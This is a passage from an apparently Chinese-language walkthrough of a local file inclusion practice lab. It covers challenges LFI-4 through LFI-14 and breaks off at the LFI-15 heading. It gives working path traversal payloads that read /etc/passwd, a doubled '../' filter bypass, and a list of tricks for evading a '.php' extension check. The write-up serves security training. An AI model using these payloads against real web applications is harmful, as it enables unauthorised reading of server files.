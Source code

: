 查看源码发现代码会检查最后四位是否是'.php'，这里绕过方法有很多：

1.加点```.```（win）

2.追加```/.```（win）

3.追加不可见字符，例如%00

4.大小写绕过（win）

5.```::$DATA```（win）

6.其他可解析后缀，例如php3,php4,php5,phtml等

##### LFI-4

查看源码发现重要的一行：

```php
include('includes/class_'.addslashes($_GET['class']).'.php');
```

这里可以跟LFI-2思路一样，不过不能使用%00截断，因为addslashes函数会对单引号，双引号，反斜杠，0x00进行转义，造成%00截断失效。

这里吧```class_```当成一个目录即可，用`../`跳出去。payload：

```
?class=/../../../../../etc/passwd
```

##### LFI-5

查看源码发现过滤了`../`，但是只是替换成空字符，且只替换一次，故通过双写``../``即可绕过。payload：

```
?file=..././..././..././..././etc/passwd
```

##### LFI-6/7/8/9/10

只是换成了post型，跟LFI-1/2/3/4/5相同。

##### LFI-11

查看源码发现需要post提交一个stylepath参数，但是文本框提交的不是，所以需要自己来，故通过firefox的hackbar插件完成post提交，payload：

```
stylepath=/etc/passwd
```

##### LFI-12

跟上一题一样，只不过换成了get方式

##### LFI-13

和LFI-5一样(懵，为什么一样)

##### LFI-14

和LFI-5一样，换成POST请求

##### LFI-15

